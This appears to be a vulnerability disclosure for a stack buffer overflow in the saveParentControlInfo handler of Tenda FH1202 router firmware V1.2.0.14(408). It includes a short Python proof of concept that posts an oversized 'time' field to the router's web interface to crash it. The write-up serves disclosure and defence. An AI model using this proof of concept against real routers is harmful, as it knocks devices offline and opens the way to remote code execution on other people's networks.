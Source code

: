 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240319223137445](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223137445.png)

it reads in a user-provided parameter `time`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223102122](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223102122.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223110983](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223110983.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223442316.png)
